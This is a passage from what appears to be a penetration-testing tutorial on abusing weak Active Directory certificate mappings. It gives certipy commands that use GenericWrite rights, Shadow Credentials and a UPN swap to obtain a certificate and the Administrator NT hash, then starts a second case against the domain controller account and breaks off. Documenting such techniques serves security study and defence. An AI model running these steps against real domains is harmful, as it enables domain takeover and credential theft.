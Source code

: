 ## CASE 1

### With StrongCertificateBindingEnforcement configured as 0, an account A with GenericWrite permissions can be exploited to compromise any account B.

### For instance, having GenericWrite permissions over Jane@corp.local, an attacker aims to compromise Administrator@corp.local. The procedure mirrors ESC9, allowing any certificate template to be utilized.

### Initially, Jane's hash is retrieved using Shadow Credentials, exploiting the GenericWrite.

 - certipy shadow autho -username John@corp.local -p Passw0rd! -a Jane

### Subsequently, Jane's userPrincipalName is altered to Administrator, deliberately omitting the @corp.local portion to avoid a constraint violation.

 - certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn Administrator

### Following this, a certificate enabling client authentication is requested as Jane, using the default User template.

 - certipy req -ca 'corp-DC-CA' -username Jane@corp.local -hashes HASH

### Jane's userPrincipalName is then reverted to its original, Jane@corp.local.

 - certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn Jane@corp.local

### Authenticating with the obtained certificate will yield the NT hash of Administrator@corp.local, necessitating the specification of the domain in the command due to the absence of domain details in the certificate.

 - certipy auth -pfx administrator.pfx -domain corp.local

## CASE 2

### With the CertificateMappingMethods containing the UPN bit flag (0x4), an account A with GenericWrite permissions can compromise any account B lacking a userPrincipalName property, including machine accounts and the built-in domain administrator Administrator.

### Here, the goal is to compromise DC$@corp.local, starting with obtaining Jane's hash through Shadow Credentials, leveraging the GenericWrite.
